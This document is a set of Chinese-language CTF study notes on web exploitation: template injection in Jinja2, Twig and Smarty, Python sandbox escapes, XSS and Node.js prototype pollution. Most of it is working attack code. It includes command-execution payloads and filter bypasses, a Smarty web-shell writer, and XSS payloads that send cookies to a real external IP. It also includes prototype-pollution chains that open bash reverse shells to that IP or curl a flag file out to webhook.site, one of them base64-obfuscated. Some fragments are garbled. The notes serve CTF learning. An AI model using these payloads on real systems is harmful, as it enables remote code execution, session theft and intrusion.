

# Web CTF Notes — SSTI、XSS 与 Node.js

> 来源：source/本科web笔记.md
> 内容按原笔记保留，仅添加本分组标题。

## 十八、服务端模板注入（SSTI）

## 🧩 十八、服务端模板注入（SSTI）

> [!summary] 速览
> - **指纹**：`{{7*'7'}}` 返回 `7777777` → Twig；返回 `49` / `14` → Jinja2
> - **Twig**：`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`
> - **Smarty**：`{$smarty.version}` 判版本；**Jinja2**：`__class__ → __mro__/__base__ → __subclasses__() → __init__.__globals__ → popen`
> - **过滤绕过**：`attr()` 代 `[]` / `.`，Cookie 传参代 `request.args`，`\x5f` / `\u005f` 代下划线，`` 代 `{{`，字符串拼接代关键字
> - **沙盒逃逸**：`help()` / `breakpoint()` 进 shell、`globals()` / `dir()` 泄露、`bytes()` 代 `char`、`_posixsubprocess.fork_exec` 直接起 shell
> - 其他：输出流重定向 `__stdout__.write(...)`、回溯 `random` 状态预测




输入{{7*‘7’}}，返回7777777表示是 Twig 模块
输入{{7*‘7’}}或{{7+7}}，返回49或14表示是 Jinja2 模块

以上具体通过输入{{7*7}}，根据返回结果判断属于那个模块，这种判断方法不知是否正确\

http://www.fhdq.net/

> [!missing] 图片缺失：原为微信临时目录图片

特殊字符

```jinja
﹛(()|attr(request.values.a)|attr(request.values.b)|attr(request.values.c)()|attr(request.values.d)(132)|attr(request.values.e)|attr(request.values.f)|attr(request.values.d)(request.values.g)(request.values.h)).read()﹜&a=__class__&b=__base__&c=__subclasses__&d=__getitem__&e=__init__&f=__globals__&g=popen&h=cat /flag

```

### Twig 模板

`{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

{{url_for.__globals__.__builtins__['__import__']('os').popen('ls').read()}}

### Smarty

```text
一，漏洞确认(查看smarty的版本号)：
{$smarty.version}
二，常规利用方式：（使用{php}{/php}标签来执行被包裹其中的php指令，smarty3弃用）
{php}{/php}
执行php指令，php7无法使用

<script language="php">phpinfo();</script>

三，静态方法
public function getStreamVariable($variable){ $_result = ''; $fp = fopen($variable, 'r+'); if ($fp) { while (!feof($fp) && ($current_line = fgets($fp)) !== false) { $_result .= $current_line; } fclose($fp); return $_result; } $smarty = isset($this->smarty) ? $this->smarty : $this; if ($smarty->error_unassigned) { throw new SmartyException('Undefined stream variable "' . $variable . '"'); } else { return null; } }

payload1:（if标签执行PHP命令）
{if phpinfo()}{/if}
{if system('ls')}{/if}
{if system('cat /flag')}{/if}
四，其他payload
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}

```

### Jinja2

读取模块

```jinja
`<class '_frozen_importlib_external.FileLoader'>`

`subprocess.Popen`

使用：{{''.__class__.__mro__[2].__subclasses__()[258]('cat /flasklight/coomme_geeeett_youur_flek',shell=True,stdout=-1).communicate()[0].strip()}}

```

```jinja
查找脚本
import requests

url = 'http://c77cb43a-a5f0-44dd-bc75-7e531b6a69e5.node4.buuoj.cn:81'
for i in range(1, 100):
    payload = "/?search={{''.__class__.__mro__[2].__subclasses__()[" + str(i) + "].__init__['__glo'+'bals__']}}"
    newurl = url + payload
    res = requests.get(url=newurl + payload)
    if 'builtins' in res.text:
        print(newurl)
    else:
        pass

```

`利用{{''.__class__.__mro__[2].__subclasses__()[76].__init__['__glo'+'bals__']['__builtins__']['eval']("__import__('os').popen('ls').read()")}}`

过滤单双引号

?a=os&b=popen&c=cat /flag&name={{url_for.__globals__[request.args.a][request.args.b](request.args.c).read()}}

过滤了args，换其他参数传值即可

Args->cookie

过滤[]

?name={{url_for.__globals__.os.popen(request.cookies.a).read()}} Cookie:a=cat /flag

过滤了下划线，我们可以使用attr方法，request|attr(request.cookies.a)等价于request[“a”]?

name={{(lipsum|attr(request.cookies.a)).os.popen(request.cookies.b).read()}}

a=__globals__;b=cat /f*

__绕过

"__class__"=="\x5f\x5fclass\x5f\x5f"=="\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f"

使用get传参，构造参数：

{{(x|attr(request.cookies.x1)|attr(request.cookies.x2)|attr(request.cookies.x3))(request.cookies.x4).eval(request.cookies.x5)}}

Cookie=x1=__init__;x2=__globals__;x3=__getitem__;x4=__builtins__;x5=__import__('os').popen('cat /flag').read()

.过滤

""|attr("__class__")

相当于

"".__class__

过滤.{{,__,

txt.galf_eht_si_siht/ tac'[::-1]) 反方向绕过

Cookie:a=__globals__;b=cat /flag

过滤{{



过滤popen

q=[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['pop'+'en']('cat main.py').read()

 过滤了 空格 _ [ ] ' " . pop class request

### 十六进制

```jinja
{%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}

```

```jinja
 username={%%0cset%0czero%0c=%0c(self|int)%0c%}{%%0cset%0cone%0c=%0c(zero**zero)|int%0c%}{%%0cset%0ctwo%0c=%0c(zero-one-one)|abs%0c%}{%%0cset%0cfour%0c=%0c(two*two)|int%0c%}{%%0cset%0cfive%0c=%0c(two*two*two)-one-one-one%0c%}{%%0cset%0cthree%0c=%0cfive-one-one%0c%}{%%0cset%0cnine%0c=%0c(two*two*two*two-five-one-one)%0c%}{%%0cset%0cseven%0c=%0c(zero-one-one-five)|abs%0c%}{%%0cset%0cspace%0c=%0cself|string|min%0c%}{%%0cset%0cpoint%0c=%0cself|float|string|min%0c%}{%%0cset%0cc%0c=%0cdict(c=aa)|reverse|first%0c%}{%%0cset%0cbfh%0c=%0cself|string|urlencode|first%0c%}{%%0cset%0cbfhc%0c=%0cbfh~c%0c%}{%%0cset%0cslas%0c=%0cbfhc%((four~seven)|int)%0c%}{%%0cset%0cyin%0c=%0cbfhc%((three~nine)|int)%0c%}{%%0cset%0cxhx%0c=%0cbfhc%((nine~five)|int)%0c%}{%%0cset%0cright%0c=%0cbfhc%((four~one)|int)%0c%}{%%0cset%0cleft%0c=%0cbfhc%((four~zero)|int)%0c%}{%%0cset%0cbut%0c=%0cdict(buil=aa,tins=dd)|join%0c%}{%%0cset%0cimp%0c=%0cdict(imp=aa,ort=dd)|join%0c%}{%%0cset%0cpon%0c=%0cdict(po=aa,pen=dd)|join%0c%}{%%0cset%0cso%0c=%0cdict(o=aa,s=dd)|join%0c%}{%%0cset%0cca%0c=%0cdict(ca=aa,t=dd)|join%0c%}{%%0cset%0cls%0c=%0cdict(ls=x)|join%0c%}{%%0cset%0cev%0c=%0cdict(ev=aa,al=dd)|join%0c%}{%%0cset%0cred%0c=%0cdict(re=aa,ad=dd)|join%0c%}{%%0cset%0cbul%0c=%0cxhx~xhx~but~xhx~xhx%0c%}{%%0cset%0cini%0c=%0cdict(ini=aa,t=bb)|join%0c%}{%%0cset%0cglo%0c=%0cdict(glo=aa,bals=bb)|join%0c%}{%%0cset%0citm%0c=%0cdict(ite=aa,ms=bb)|join%0c%}{%%0cset%0cpld%0c=%0cxhx~xhx~imp~xhx~xhx~left~yin~so~yin~right~point~pon~left~yin~ca~space~slas~(dict(flag=1)|join)~yin~right~point~red~left~right%0c%}{%%0cfor%0cf,v%0cin%0c(self|attr(xhx~xhx~ini~xhx~xhx)|attr(xhx~xhx~glo~xhx~xhx)|attr(itm))()%0c%}{%%0cif%0cf%0c==%0cbul%0c%}{%%0cfor%0ca,b%0cin%0c(v|attr(itm))()%0c%}{%%0cif%0ca%0c==%0cev%0c%}{{b(pld)}}{%%0cendif%0c%}{%%0cendfor%0c%}{%%0cendif%0c%}{%%0cendfor%0c%}&password=2312

```

```jinja
# _
config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3)
# 空格
config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)
# /
config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)

# __class__
(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(cla=aa,ss=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2

# config.__class__.__init__.__globals__
config|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(cla=aa,ss=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(in=aa,it=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(glo=aa,bals=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)

#config.__class__.__init__.__globals__['os'].popen('cat /flag').read()
config|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(cla=aa,ss=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(in=aa,it=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(glo=aa,bals=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)|attr((config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2+dict(geti=aa,tem=bb)|join()+(config|list()|last()|string()|list()|attr(dict(p=aa,op=bb)|join())(3))*2)(dict(o=aa,s=bb)|join())|attr(dict(po=aa,pen=bb)|join())(dict(c=aa,at=bb)|join()+config|string()|list()|attr(dict(p=aa,op=bb)|join())(7)+config|string()|list()|attr(dict(p=aa,op=bb)|join())(279)+dict(fl=aa,ag=bb)|join())|attr(dict(re=aa,ad=bb)|join())()

/**
* 复制并使用代码请注明引用出处哦~
* Lazzaro @ https://lazzzaro.github.io
*/

```

无回显sstl堆区

/hack?klf={{config.__class__.__init__.__globals__['os'].popen('tac /f*').read()}读取

/hack?klf={{config.__class__.__init__.__globals__['os'].popen('curl 120.46.41.173:9023').read()}}

/hack?klf={{config.__class__.__init__.__globals__['os'].popen('curl 120.46.41.173:9023/`ls /app/f*`').read()}}

Payload:?name={%set n=dict(eeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeee=a)|join|count%}atao

 黑名单

```jinja


```

```jinja
url={%print(()|attr(%22\u005f\u005f\u0063\u006c\u0061\u0073\u0073\u005f\u005f%22))%}（Unicode编码有回显，这条payload等效于{{””.__class__}}）

url={%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22))%}(等效于{{lipsum.__globals__}}）


                                                                                                     
{%print(lipsum|attr(%22\u005f\u005f\u0067\u006c\u006f\u0062\u0061\u006c\u0073\u005f\u005f%22)|attr(%22\u005f\u005f\u0067\u0065\u0074\u0069\u0074\u0065\u006d\u005f\u005f%22)(%22\u006f\u0073%22)|attr(%22\u0070\u006f\u0070\u0065\u006e%22)(%22\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067\u002e\u0074\u0078\u0074%22)|attr(%22read%22)())%}

```

 先看"class

### 沙盒逃逸

最普通： __import__("os").system("cat flag")

无参数b和i，单引号，双引号，反引号

getattr(getattr(()class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()

找到()class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('sh')

构造同理

getattr(getattr(getattr(getattr(().__class__,chr(95)+chr(95)+chr(98)+chr(97)+chr(115)+chr(101)+chr(95)+chr(95)),chr(95)+chr(95)+chr(115)+chr(117)+chr(98)+chr(99)+chr(108)+chr(97)+chr(115)+chr(115)+chr(101)+chr(115)+chr(95)+chr(95))()[-4],chr(95)+chr(95)+chr(105)+chr(110)+chr(105)+chr(116)+chr(95)+chr(95)),chr(95)+chr(95)+chr(103)+chr(108)+chr(111)+chr(98)+chr(97)+chr(108)+chr(115)+chr(95)+chr(95))[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)](chr(115)+chr(104))

_利用


过滤方括号https://miaotony.xyz/2021/11/30/CTF_2021NCTF/

```python
from os import system
n = {}.__doc__
l = lambda _: n[69]+n[97]  # ls
f = lambda _: n[2]+n[80]+n[55]+n[6]+n[75]+n[69]+n[80]+n[88]  # cat flag
@system
@f
class x:pass

```

#### 字符长度限制

s<13

eval(input())

然后在执行上面的

 S<7

一开始输入help()，进入到help界面，然后随便找个模块，例如os输入，此时就会显示os模块的帮助页面，输入!sh就能进到shell里面去。

无help（）

breakpoint()

再正常输入

#### globals() 函数

泄露全局变量

Server模块有类似作用

Dir()函数

查看根目录

Dir(my_flag)查看底下类

My_flag.flag1.encode()方法使用

#### Byte 代替 char

Payload = open("flag").read()

open((bytes([102])+bytes([108])+bytes([97])+bytes([103])).decode()).read()

bytes用基类代替

().__class__.__base__.__subclasses__()[6]  --->通过基类使用bytes

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps9.jpg`

().__doc__[1:200]使用

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps10.jpg`

python中存在unicode的注入，所以直接调用level2的payload改下unicode

���val(inp���t())

#### + 绕过方式

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps11.jpg`

().__class__.__base__.__subclasses__()[-4].__init__.__globals__[str().join([().__doc__[19],().__doc__[86],().__doc__[19],().__doc__[4],().__doc__[17],().__doc__[10]])](str().join([().__doc__[19],().__doc__[56]]))

#### _posixsubprocess 绕过

##### 多次输入

__builtins__['__loader__'].load_module('_posixsubprocess')

或：

__loader__.load_module('_posixsubprocess')

import os

__loader__.load_module('_posixsubprocess').fork_exec([b"/bin/sh"], [b"/bin/sh"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False, None, None, None, -1, None)

交替python和shell运行

##### 单次输入

[os := __import__('os'), itertools := __loader__.load_module('itertools'), _posixsubprocess := __loader__.load_module('_posixsubprocess'), [_posixsubprocess.fork_exec([b"/bin/sh"], [b"/bin/sh"], True, (), None, None, -1, -1, -1, -1, -1, -1, *(os.pipe()), False, False, None, None, None, -1, None) for i in itertools.count(0)]]

### 随机数

##### 输出流重定向

__import__("sys").__stdout__.write(__import__("os").read(__import__("os").open("flag",__import__("os").O_RDONLY)0x114).decode())

int(str(__import__('sys')._getframe(1).f_locals["right_guesser_question_answer"]))

回溯随机数

[random:=__import__('random'), state:=random.getstate(), pre_state:=list(state[1])[:624], random.setstate((3,tuple(pre_state+[0]),None)), random.randint(1, 9999999999999)][-1]

**函数利用**

```python
(lambda:os.system('cat flag'))()

 

class WOOD(type):

__getitem__=os.system

class WHALE(metaclass=WOOD):

pass

tmp = WHALE['sh']

```

 无参数

偏门赛题

php运用原生类eval(“ ”,$ )

action=%5ccreate_function&arg=}system('cat /sec*');//

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps12.jpg`

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps13.jpg`

内网穿透

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps14.jpg`

Zip读取

[https://w0co1yvttngpnhutm4avlaczb.node.game.sycsec.com/include.php?file=zip://upload/1cmd.jpg.zip%23cmd.jpg](https://w0co1yvttngpnhutm4avlaczb.node.game.sycsec.com/include.php?file=zip:/upload/1cmd.jpg.zip%23cmd.jpg)

局部变量替换绕过

 preg_replace('|\$option=\'.*\';|', "\$option='$str';", $file);

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps15.jpg`

> [!missing] 图片缺失：原文件为 WPS 临时图片 `wps16.jpg`

ctf大赛原题

CTFSHOW大赛原题篇(web680-web695)_ctfshow web680

条件竞争

<?php                                    ?>';

file_put_contents('1.php',$a); ?>

---


## 十九、XSS 专题

## 🕸️ 十九、XSS 专题

> [!summary] 速览
> - 过滤 `img` → 用 `<script>document.location.href="...cookie="+document.cookie</script>`
> - 过滤 `script` → 用 `<body onload=...>`
> - 过滤空格 → `<body/onload=...>`
> - 归纳：`window.open(...)` 等多种外带写法，统一把 cookie 打到 VPS

### 过滤 img

<script>document.location.href="http://47.99.125.16/receive.php?cookie="+document.cookie</script>

### 过滤 script

<body onload="document.location.href='http://47.99.125.16/receive.php?cookie='+document.cookie"></body>

过滤空格

\<body/onload=document.location='http://47.99.125.16/receive.php?cookie='+document.cookie;>

归纳

```js
<script>window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)</script>

<script>var img = document.createElement("img");img.src = "http://47.99.125.16/receive.php?cookie=?cookie="+document.cookie;</script>

<script>window.location.href='http://47.99.125.16/receive.php?cookie='+document.cookie</script>

<script>location.href='http://47.99.125.16/receive.php?cookie='+document.cookie</script>

<input onfocus="window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)" autofocus>

<svg onload="window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)">

<iframe onload="window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)"></iframe>

<body onload="window.open('http://47.99.125.16/receive.php?cookie='+document.cookie)">
读全网页
var img = new Image();
img.src = "http://47.99.125.16/receive.php?cookie="+document.querySelector('#top > div.layui-container').textContent;
document.body.append(img);

```

---


## 二十、Node.js 题目

## 🟩 二十、Node.js 题目

> [!summary] 速览
> - `eval` 内直接 `require('child_process').execSync('ls /').toString()`
> - 拼接陷阱：`5+[6,6]` → `56,6`，`['a']+flag === 'a'+flag`，于是 `md5(['a']+flag) === md5('a'+flag)`
> - 长度限制绕过：`{"checkcode":[1,1,1,...]}` 用数组异常
> - **原型链污染**：`{"__proto__":{"ctfshow":"36dboy"}}`；`__proto__` 被过滤用 `constructor.prototype`
> - 升级 RCE：`{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('...')"}}`、ejs 的 `outputFunctionName`

### 1. eval 内的利用

```js
require('child_process').execSync('ls /').toString()

require( 'child_process' ).spawnSync( 'ls', [ '/' ] ).stdout.toString()

global.process.mainModule.constructor._load('child_process').execSync('ls',
['.']).toString()

```
### 2. Node.js 中的拼接问题

```js
console.log(5+[6,6]); //56,6
console.log("5"+6); //56
console.log("5"+[6,6]); //56,6
console.log("5"+["6","6"]); //56,6

```
所以：像['a']+flag==='a'+flag这样的，比如flag是flag{345}，那么最后得到的都是aflag[345}，因此这个也肯定成立：md5(['a']+flag)===md5('a'+flag)，同时也满足a!==b：

因此还可以构造：

`?a[a]=1&b[b]=1`

### 3. 长度限制与数组异常绕过


`{"checkcode":[1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1]}`

### 原型链污染

[启蒙文章](https://www.leavesongs.com/PENETRATION/javascript-prototype-pollution-attack.html#0x02-javascript)

<details>
  <summary>点击展开代码块</summary>

```js
// foo是一个简单的JavaScript对象
let foo = {bar: 1}

// foo.bar 此时为1
console.log(foo.bar)

// 修改foo的原型（即Object）
foo.__proto__.bar = 2

// 由于查找顺序的原因，foo.bar仍然是1
console.log(foo.bar)

// 此时再用Object创建一个空的zoo对象
let zoo = {}

// 查看zoo.bar
console.log(zoo.bar)

```
</details>
最后，虽然zoo是一个空对象{}，但zoo.bar的结果居然是2，原因也显而易见：因为前面我们修改了foo的原型foo.__proto__.bar = 2，而foo是一个Object类的实例，所以实际上是修改了Object这个类，给这个类增加了一个属性bar，值为2。

后来，我们又用Object类创建了一个zoo对象let zoo = {}，zoo对象自然也有一个bar属性了。

那么，在一个应用中，如果攻击者控制并修改了一个对象的原型，那么将可以影响所有和这个对象来自同一个类、父祖类的对象。这种攻击方式就是原型链污染。
要用json格式

#### 普通变量相等绕过
`{"__proto__":{"ctfshow":"36dboy"}}`

### eval 函数

```js
require('child_process').spawnSync('ls',['./']).stdout.toString()
require('child_process').spawnSync('cat',['fl00g.txt']).stdout.toString()
/?eval=__filename
/?eval=require('fs').readFileSync('/app/routes/index.js','utf-8')         //过滤exec|load
/?eval=require('child_process')['exe'+'cSync']('ls').toString()           //+号绕过

```

#### 升级 RCE 绕过
`{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('curl -F flag=@/flag.txt https://webhook.site/be0307c8-2fe5-4f34-b561-05a24590b99f')"}}
`

#### 函数套函数
`{"__proto__":{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/47.99.125.16/3389 0>&1\"')"}}}`

#### ejs 模板 RCE
`{"__proto__":{"__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/47.99.125.16/3389 0>&1\"');var __tmp2"}}}`

```js
{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('echo YmFzaCAtYyAiYmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMTIuMTI0LjM5LjExOC8yMzMzIDA%2BJjEi|base64 -d|bash');var __tmp2"}

```

```js
{
    "__proto__": {
        "client": true,
        "escapeFunction": "1; return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');",
        "compileDebug": true
    }
}

```

滤了__proto__，我们可以用constructor.prototype代替

```js
{"constructor.prototype.outputFunctionName":
"a=1;return global.process.mainModule.constructor._load('child_process').execSync('cat /flag');//"}

{"constructor.prototype.outputFunctionName": "_tmp1;global.process.mainModule.require('child_process').exec('bash -c \\"bash -i >& /dev/tcp/xxx/4444 0>&1\\"');var __tmp2"}

```

[例题](https://xz.aliyun.com/t/7184?time__1311=n4%2BxnD0GDtKx9lFD%2FiT4BKeAI6njE6joD#toc-11)

[ctfshow](https://blog.csdn.net/m0_74456293/article/details/130184074?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522170556467916800226512158%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=170556467916800226512158&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-2-130184074-null-null.142^v99^pc_search_result_base7&utm_term=ctfshow%20nodejs&spm=1018.2226.3001.4187)

---

